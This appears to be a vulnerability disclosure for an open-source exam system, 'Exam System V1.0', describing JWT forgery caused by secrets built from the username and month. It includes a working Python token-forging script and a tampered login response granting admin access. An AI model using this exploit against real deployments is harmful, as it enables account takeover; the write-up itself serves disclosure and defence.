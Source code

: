 # <font style="color:rgb(0, 0, 0);">Vulnerability Introduction</font>

<font style="color:rgb(0, 0, 0);">Project Address</font>：[https://gitee.com/youth-is-as-pale-as-poetry/e-learning](https://gitee.com/youth-is-as-pale-as-poetry/e-learning)

Project Name: Exam System V1.0

<font style="color:rgba(0, 0, 0, 0.85) !important;">There is a JWT forgery vulnerability, which allows attackers to log in to any account (for which the username is known) using a forged JWT.</font>

# <font style="color:rgb(0, 0, 0);">Vulnerability Analysis</font>

<font style="color:rgba(0, 0, 0, 0.85);">The encryptSecret function located in the file e-learning-master\exam-api\src\main\java\com\yf\exam\ability\shiro\jwt\JwtUtils.java</font>

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1757616066039-d2066727-f8ad-4182-bc8d-8ae62dd9e9fd.png)

<font style="color:rgba(0, 0, 0, 0.85);">Since the JWT uses the username and month information as parameters for the secret key, an attacker can forge the corresponding JWT to log in if they know the username.</font>

# <font style="color:rgb(0, 0, 0);">Vulnerability Reproduction</font>

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1757617263558-28270b21-7697-414b-a842-992c3a9d9490.png)

<font style="color:rgba(0, 0, 0, 0.85);">Enter any username and password, click login, and capture the packet. Hijack the response packet.</font>

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1757617322120-33bf802b-57b1-4994-92c5-72181ead1e96.png)

<font style="color:rgba(0, 0, 0, 0.85);">Modify the response packet to the following content</font>

```plain
HTTP/1.1 200
Vary: accept-encoding,origin,access-control-request-headers,access-control-request-method,accept-encoding
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: http://localhost:9527
Content-Type: application/json;charset=UTF-8
Date: Thu, 11 Sep 2025 17:54:59 GMT
Content-Length: 396

{"msg":"操作成功！","code":0,"data":{"id":"10001","userName":"admin","realName":"超管A","roleIds":"sa","departId":"1318103313740320770","createTime":"2020-04-20 13:51:03","updateTime":"2020-04-20 13:51:03","state":0,"roles":["sa"],"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NTc4MDM1ODkuMDYxMjIyLCJ1c2VybmFtZSI6ImFkbWluIn0.E0ZqhkqWPmalaGGL87B1dRFpT_uMrTzsbotagIM3F4s"},"success":true}
```

<font style="color:rgba(0, 0, 0, 0.85);">Use the token generated by the script to replace the token in the response packet.</font>

```python
import time
import hashlib
import jwt

def generate_secret(user_name):

    current_millis = int(time.time() * 1000)

    # Obtain the current month (note that Java's Calendar.MONTH ranges from 0 to 11, while Python's tm_mon ranges from 1 to 12, so you need to subtract 1 from the Python value to keep them consistent).
    current_time = time.localtime(current_millis / 1000)
    month = current_time.tm_mon - 1  

    sb = f"{user_name}&{month}"

    def md5_hash(s):
        return hashlib.md5(s.encode('utf-8')).hexdigest()

    secret = md5_hash(sb)
    return md5_hash(f"{user_name}&{secret}")


def generate_jwt_with_secret(username):

    headers = {
        "typ": "JWT",
        "alg": "HS256"
    }

    payload = {
        "exp": time.time() + 186400,
        "username": username,
    }


    secret_key = generate_secret(username)

    token = jwt.encode(
        payload,
        secret_key,
        algorithm="HS256",
        headers=headers
    )
    return token

jwt_token = generate_jwt_with_secret("admin")
print("JWT:")
print(jwt_token)

```

<font style="color:rgba(0, 0, 0, 0.85);">After allowing the response packet to pass, the login is successful.</font>

![](https://cdn.nlark.com/yuque/0/2025/png/46456412/1757617527563-5a600d47-2c92-4c0a-91b4-e075f230744e.png)



